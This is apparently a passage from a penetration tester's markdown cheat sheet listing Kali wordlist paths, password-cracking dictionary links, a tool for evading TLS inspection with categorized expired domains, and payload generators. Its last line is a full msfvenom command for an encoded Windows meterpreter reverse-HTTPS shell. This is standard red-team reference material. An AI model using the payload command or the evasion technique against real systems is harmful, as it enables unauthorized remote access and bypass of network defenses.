 ## Use an existing virtualenv
`source <directory>/bin/activate`

## Exit currently active virtualenv
`deactivate`

# Wordlists
## Kali built-in
~~~ bash
/usr/share/wordlists/
├── dirb -> /usr/share/dirb/wordlists
├── dirbuster -> /usr/share/dirbuster/wordlists
├── dnsmap.txt -> /usr/share/dnsmap/wordlist_TLAs.txt
├── fasttrack.txt -> /usr/share/set/src/fasttrack/wordlist.txt
├── fern-wifi -> /usr/share/fern-wifi-cracker/extras/wordlists
├── metasploit -> /usr/share/metasploit-framework/data/wordlists
├── nmap.lst -> /usr/share/nmap/nselib/data/passwords.lst
├── rockyou.txt.gz
├── sqlmap.txt -> /usr/share/sqlmap/txt/wordlist.txt
└── wfuzz -> /usr/share/wfuzz/wordlist
~~~

## Seclists
[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)

## Crackstation
[https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm](https://crackstation.net/crackstation-wordlist-password-cracking-dictionary.htm)

# SSL/TLS interdiction evasion
## DomainGain
Use to identify an expired domain categorized as a non-interdicted category (e.g., healthcare).

[https://github.com/fullmetalcache/domainGain](https://github.com/fullmetalcache/domainGain)

# Generating exploit payloads
## Veil (the newer way)
[https://github.com/Veil-Framework/](https://github.com/Veil-Framework/)

## MSFVenom (the old way)
### Generating a typical payload
`msfvenom -f exe -e x86/shikata_ga_nai -a x64 -p windows/x64/meterpreter_reverse_https lhost=<ip> lport=<port>  -i <count> -o <outputfile>`

